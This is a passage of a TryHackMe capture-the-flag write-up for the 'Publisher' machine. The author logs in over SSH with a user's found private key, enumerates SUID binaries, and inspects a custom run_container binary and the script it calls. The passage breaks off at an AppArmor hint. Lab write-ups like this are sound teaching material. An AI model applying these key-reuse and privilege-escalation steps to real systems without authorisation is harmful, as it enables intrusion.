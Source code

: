 Found the think user's SSH keys in their home directory and used the id_rsa key to SSH into the machine as the think user.

```
❯ chmod 600 ./think_id_rsa 
 
❯ ssh -i ./think_id_rsa think@10.10.207.110
think@publisher:~$ 
```

---
## **Escalation**

Checking for SUID binaries as the think user gives me the following :

```
think@publisher:/tmp$ find / -user root -perm -4000 -print 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/sbin/run_container
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```

I'm going to ignore the /usr/lib ones.

The only non-typical binary here is `/usr/sbin/run_container`. So I'm gonna look into that.

Running strings shows us the existence of a custom script which is called by this binary : 

```
think@publisher:~$ strings /usr/sbin/run_container
.......
/bin/bash
/opt/run_container.sh
.......
```

I can read it but I am unable to simply write to this script as something keeps blocking my write privileges.

The hint on THM says to look into AppArmor.
